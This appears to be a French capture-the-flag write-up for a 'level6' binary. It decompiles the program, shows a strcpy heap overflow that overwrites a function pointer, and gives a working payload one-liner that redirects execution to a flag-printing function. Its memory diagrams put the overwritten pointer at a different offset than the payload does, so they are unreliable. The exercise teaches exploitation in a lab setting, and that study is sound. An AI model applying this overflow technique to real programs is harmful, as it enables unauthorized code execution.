






# LEVEL 6

## 1. Introduction

Le binaire `level6` présente une vulnérabilité de **buffer overflow** classique, mais avec une particularité : le programme utilise des **arguments de ligne de commande** au lieu d'une entrée standard. Notre objectif est d'écraser un pointeur de fonction pour rediriger l'exécution vers une fonction cachée qui affiche le flag.

Mais on devine que ça ne sera pas une string attack mais un buffer overflow classique, on peut vérifier simplement avec Ghidra.



## 2. Analyse

### 2.1 Execution du binaire



### 2.2 Droits du binaire
```bash
$ ls -la level6
-rwsr-s---+ 1 level7  level6  747441 Mar  6  2016 level6
```

### 2.3 Analyse avec Ghidra

En décompilant le binaire, on observe la structure suivante :

```c
void n(void) {
    system("/bin/cat /home/user/level7/.pass");  // ← Notre cible !
    return;
}

void m(void *param_1, int param_2, char *param_3, int param_4, int param_5) {
    puts("Nope");
    return;
}

void main(undefined4 param_1, int param_2) {
    char *__dest;
    code **ppcVar1;
    
    __dest = (char *)malloc(0x40);        // Buffer de 64 octets
    ppcVar1 = (code **)malloc(4);         // Pointeur de fonction
    *ppcVar1 = m;                         // Pointe vers m() par défaut
    strcpy(__dest, *(char **)(param_2 + 4));  // ← Vulnérabilité !
    (**ppcVar1)();                        // Appel de la fonction pointée
    return;
}
```

**Points clés :**
- `strcpy()` sans vérification de taille = vulnérabilité buffer overflow
- Buffer de 64 octets (`malloc(0x40)`)
- Pointeur de fonction `ppcVar1` qui pointe vers `m()` par défaut
- Fonction `n()` affiche le flag (notre cible)

### 2.4 Fonction cible

On voit bien en effet qu'il y a un buffer overflow à exploiter, en cherchant un peu plus il y a cette fonction qui donne le flag :



Et son adresse est : `0x08048454` soit `\x54\x84\x04\x08` en little-endian.

**Adresse de `n()` : `0x08048454`**

## 3. Exploitation

### 3.1 Étape 1 : Détermination de l'offset

Pour le payload il va nous falloir l'offset (là où ça segfault), qu'on peut obtenir toujours grâce au pattern generator.

On lance d'abord le pattern avec GDB :



Et on donne l'adresse de là où ça segfault sur le site :



Et on obtient un offset de **72**.

### 3.2 Étape 2 : Construction du payload

Donc pour le payload on peut tout simplement :

```bash
python -c 'print "A" * 72 + "\x54\x84\x04\x08"'
```

### 3.3 Étape 3 : Exécution de l'exploit

Et pour avoir le résultat on peut le mettre dans un subshell et le passer en arguments du binaire :

```bash
./level6 "$(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')"
```

Et on obtient le flag !



### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level6@<IP> -p 4242

# Créer et exécuter l'exploit
./level6 "$(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')"
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│              BUFFER OVERFLOW AVEC ARGUMENT             │
├─────────────────────────────────────────────────────────┤
│  Buffer[64] + Pointeur fonction[4] + Padding[4]       │
│  │                                                    │
│  └─→ "A"*72 + "\x54\x84\x04\x08"                    │
│      │                                                │
│      └─→ strcpy() déborde le buffer de 64 octets     │
│          │                                            │
│          └─→ Écrasement du pointeur de fonction      │
│              │                                        │
│              └─→ Pointeur pointe vers n() au lieu de m()│
│                  │                                    │
│                  └─→ n() appelle system("/bin/cat ...")│
│                      │                               │
│                      └─→ Flag affiché directement    │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la mémoire

```
┌─────────────────┐
│   Buffer[64]    │ ← Notre argument (64 octets)
├─────────────────┤
│ Pointeur func   │ ← 4 octets (notre cible)
├─────────────────┤
│   Padding[4]    │ ← 4 octets pour atteindre 72
└─────────────────┘
```

### 4.3 Redirection du pointeur de fonction

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Avant         │    │   Écrasement    │    │   Après          │
│   Pointeur      │    │   Buffer        │    │   Pointeur      │
│   0x080484a4    │───▶│   Overflow      │───▶│   0x08048454    │
│   → m()         │    │   72 bytes      │    │   → n()         │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. Programme reçoit notre argument en ligne de commande
2. strcpy() copie notre argument dans le buffer de 64 octets
3. Buffer déborde et écrase le pointeur de fonction
4. Pointeur pointe maintenant vers n() au lieu de m()
5. (**ppcVar1)() appelle n() à la place de m()
6. n() exécute system("/bin/cat /home/user/level7/.pass")
7. Le flag est affiché directement
```

### 4.5 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Argument      │    │   Buffer        │    │   Redirection   │
│   "A"*72 +     │───▶│   Overflow      │───▶│   m() → n()     │
│   \x54\x84...  │    │   strcpy()      │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.6 Mécanisme de function pointer overwrite

```
┌─────────────────┐
│ Buffer[64]      │ ← Notre argument (déborde)
├─────────────────┤
│ Pointeur func   │ ← Écrasé par notre payload
├─────────────────┤
│ Padding[4]      │ ← Pour atteindre offset 72
└─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre l'importance de la validation des arguments de ligne de commande et l'utilisation de techniques de function pointer overwrite pour rediriger l'exécution de programmes. 